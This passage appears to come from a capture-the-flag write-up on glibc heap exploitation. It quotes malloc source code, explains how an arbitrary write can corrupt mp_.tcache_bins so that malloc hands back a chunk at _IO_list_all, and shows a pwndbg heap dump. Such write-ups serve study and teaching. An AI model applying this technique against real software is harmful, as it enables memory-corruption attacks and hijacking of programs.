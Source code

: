 ```C
  /* Retry with another arena only if we were able to find a usable arena
     before.  */
  if (!victim && ar_ptr != NULL)
    {
      LIBC_PROBE (memory_malloc_retry, 1, bytes);
      ar_ptr = arena_get_retry (ar_ptr, bytes);
      victim = _int_malloc (ar_ptr, bytes);
    }

  if (ar_ptr != NULL)
    __libc_lock_unlock (ar_ptr->mutex);

  assert (!victim || chunk_is_mmapped (mem2chunk (victim)) ||
          ar_ptr == arena_for_chunk (mem2chunk (victim)));
  return victim;
}
libc_hidden_def (__libc_malloc)
```


The value of `mp_.tcache_bins` was the number of tcache bin  from size of 0x20 to 0x410 , so it wasnt ment to be change , the malloc source code when we want to request a chunk with some value of size it will check to see if that size is corresponding to tcahe size available , and if that tcache bin have a some chunk is the list ot will return that chunk .
So with the vulnerbility of arbitary of write big value like `0xdeadbeefcafebabeUL` any where we want we can write that value to `mp_.tcache_bin`  and after that we will request a chunk out side of tcache chunk size . with the set_item function we can place `_IO_list_all` address on heap chunk and malloc a chunk corresponding to that tcache[index];




```C
pwndbg> vis

0x5566598ef000	0x0000000000000000	0x0000000000000291	................
0x5566598ef010	0x0000000000010000	0x0000000000000000	................
0x5566598ef020	0x0000000000000000	0x0000000000000000	................
0x5566598ef030	0x0000000000000000	0x0000000000000000	................
0x5566598ef040	0x0000000000000000	0x0000000000000000	................
0x5566598ef050	0x0000000000000000	0x0000000000000000	................
0x5566598ef060	0x0000000000000000	0x0000000000000000	................
0x5566598ef070	0x0000000000000000	0x0000000000000000	................
0x5566598ef080	0x0000000000000000	0x0000000000000000	................
0x5566598ef090	0x0000000000000000	0x00005566598ef320	........ ..YfU..
0x5566598ef0a0	0x0000000000000000	0x0000000000000000	................
0x5566598ef0b0	0x0000000000000000	0x0000000000000000	................
0x5566598ef0c0	0x0000000000000000	0x0000000000000000	................
0x5566598ef0d0	0x0000000000000000	0x0000000000000000	................
0x5566598ef0e0	0x0000000000000000	0x0000000000000000	................
0x5566598ef0f0	0x0000000000000000	0x0000000000000000	................
0x5566598ef100	0x0000000000000000	0x0000000000000000	................
0x5566598ef110	0x0000000000000000	0x0000000000000000	................
0x5566598ef120	0x0000000000000000	0x0000000000000000	................
0x5566598ef130	0x0000000000000000	0x0000000000000000	................
0x5566598ef140	0x0000000000000000	0x0000000000000000	................
0x5566598ef150	0x0000000000000000	0x0000000000000000	................
0x5566598ef160	0x0000000000000000	0x0000000000000000	................
0x5566598ef170	0x0000000000000000	0x0000000000000000	................
0x5566598ef180	0x0000000000000000	0x0000000000000000	................
0x5566598ef190	0x0000000000000000	0x0000000000000000	................
0x5566598ef1a0	0x0000000000000000	0x0000000000000000	................
0x5566598ef1b0	0x0000000000000000	0x0000000000000000	................
0x5566598ef1c0	0x0000000000000000	0x0000000000000000	................
0x5566598ef1d0	0x0000000000000000	0x0000000000000000	................
0x5566598ef1e0	0x0000000000000000	0x0000000000000000	................
```